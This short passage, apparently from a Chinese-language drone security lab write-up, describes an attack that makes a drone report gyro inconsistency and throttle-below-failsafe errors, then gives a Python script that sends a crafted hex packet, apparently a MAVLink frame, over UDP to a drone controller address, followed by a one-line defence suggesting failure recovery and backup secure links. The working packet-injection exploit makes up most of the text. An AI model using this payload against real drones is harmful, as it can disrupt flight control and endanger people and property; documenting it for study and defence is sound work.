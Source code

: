 (此次攻击导致无人机报错为‘无人机机臂陀螺不一致’、‘油油门控制信号低于安全失败阈值’)

![QQ图片20230504140124](https://gitee.com/Duangthef1rst/drawing-bed/raw/master//202305041401914.jpg)

```
import socket

payload = 'fd200000a6ffbe4c00000000000000000000000000000000000000000000000000000000204116000101ce28'
# 创建TCP或UDP套接字对象
# sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # for TCP
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)  # for UDP

# 连接到目标IP地址和端口号
sock.connect(('192.168.56.139', 5501))

# 将16进制报文转换为二进制数据并发送
bin_msg = bytes.fromhex(payload)
sock.sendall(bin_msg)
```

##### 防御措施：

设置故障恢复机制和备用安全通信用于重新接管控制。



